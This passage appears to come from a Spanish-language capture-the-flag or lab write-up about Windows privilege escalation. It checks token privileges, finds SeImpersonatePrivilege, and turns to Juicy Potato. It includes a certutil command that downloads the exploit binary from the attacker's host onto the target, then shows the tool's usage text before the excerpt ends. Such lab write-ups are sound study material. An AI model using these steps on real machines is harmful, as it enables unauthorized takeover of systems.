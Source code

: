 
# Elevación a Root

Ejecuto un `whoami /all` para comprobar los privilegios de ese usuario

```zsh
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Al tener habilitado `SeImpersonatePrivilege` puedo intentar un **Potato**

* GodPotato no lo puedo utilizar porque el sistema no es el adecuado

```zsh
c:\Users\websvc\Desktop>systeminfo
systeminfo

Host Name:                 TRIPLADVISOR
OS Name:                   Microsoft Windows Server 2008 R2 Enterprise 
```

* Intentamos con un *Juicy Potato*, https://github.com/ohpe/juicy-potato
##### Juicy-Potato

1. Lo subo a la máquina

```zsh
certutil -urlcache -split -f http://192.168.0.141:80/potato.exe potato.exe
```

2. Ejecuto para comprobar y ver qué parámetros tengo que poner

```zsh
c:\Users\websvc\Desktop>potato.exe
potato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
